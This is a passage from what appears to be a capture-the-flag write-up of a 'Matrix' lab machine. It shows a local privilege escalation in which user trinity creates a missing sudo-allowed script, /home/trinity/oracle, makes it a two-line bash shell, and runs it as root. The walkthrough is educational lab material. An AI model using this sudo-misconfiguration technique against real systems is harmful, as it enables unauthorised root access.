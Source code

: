 ![Alt text](/images/matrix_9.png?raw=true "trinity privesc")



Our next step is to see what new permissions we have as trinity. Let's check our sudo permissions again:
<i>
trinity@porteus:~$ sudo -l
User trinity may run the following commands on porteus:
    (root) NOPASSWD: /home/trinity/oracle

</i>

Interestingly, the file /home/trinity/oracle doesn't appear to exist. How can we exploit this? Well, since we have write access to trinity's home directory, let's just create our own file called oracle and make it whatever we want. In my case, I made it this tiny bash script that simply spawns a new shell:
<code>
#!/bin/bash
/bin/bash
</code>

I made this file executable and then ran this command to run it with root privileges:
<code>sudo /home/trinity/oracle</code>
![Alt text](/images/matrix_10.png?raw=true "root privesc")

